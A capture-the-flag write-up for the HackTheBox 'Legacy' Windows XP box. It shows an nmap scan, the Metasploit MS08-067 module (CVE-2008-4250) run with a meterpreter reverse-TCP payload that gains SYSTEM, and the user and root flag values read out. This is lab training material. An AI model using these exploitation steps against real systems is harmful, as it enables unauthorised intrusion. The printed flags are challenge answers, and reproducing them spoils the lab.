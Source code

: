 ```yaml
---
title: Legacy
icon: old-man
category: machines
date: 2025-06-14
difficulty: easy
os: windows
---
```


Time to cover "Legacy", the first Windows box on HackTheBox. We wil be using the "Guided Mode" questions to help us through.

## Task 1

> How many TCP ports are open on Legacy?

```
$ sudo nmap 10.10.10.4

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-14 08:41 CEST
Nmap scan report for 10.10.10.4
Host is up (0.036s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

There are `3` open ports.

## Task 2

> What is the 2008 CVE ID for a vulnerability in SMB that allows for remote code execution?

This is `CVE-2008-4250`.

## Task 3

> What is the name of the Metasploit module that exploits CVE-2008-4250?

```
$ msfconsole

# ...

msf6 > search CVE-2008-4250

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
   1     \_ target: Automatic Targeting
   2     \_ target: Windows 2000 Universal
   3     \_ target: Windows XP SP0/SP1 Universal
   4     \_ target: Windows 2003 SP0

   # ...

   82    \_ target: Windows 2003 SP2 Turkish (NX)


Interact with a module by name or index. For example info 82, use 82 or use exploit/windows/smb/ms08_067_netapi
After interacting with a module you can manually set a TARGET with set TARGET 'Windows 2003 SP2 Turkish (NX)'
```

The name of the module is `ms08_067_netapi`.

## Task 4

> When exploiting MS08-067, what user does execution run as? Include the information before and after the .

We can run the exploit module to find out. We will configure `RHOSTS` and `LHOST` to the correct values:

```
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/usi
                                       ng-metasploit/basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.102.163  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4

msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST tun0
LHOST => 10.10.14.4

msf6 exploit(windows/smb/ms08_067_netapi) > run
[*] Started reverse TCP handler on 10.10.14.4:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.16/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.4:1032) at 2025-06-14 08:53:19 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

So the answer here is `NT AUTHORITY\SYSTEM`.

## Collecting flags

```
meterpreter > shell
Process 1928 created.
Channel 2 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings

16/03/2017  09:07 ��    <DIR>          .
16/03/2017  09:07 ��    <DIR>          ..
16/03/2017  09:07 ��    <DIR>          Administrator
16/03/2017  08:29 ��    <DIR>          All Users
16/03/2017  08:33 ��    <DIR>          john
               0 File(s)              0 bytes
               5 Dir(s)   6.342.623.232 bytes free

C:\Documents and Settings>type john\Desktop\user.txt
e69af0e4f443de7e36876fda4ec7644f

C:\Documents and Settings>type Administrator\Desktop\root.txt
993442d258b0e0ec917cae9e695d5713
```

## Task 7

This CVE is `CVE-2017-0143`.
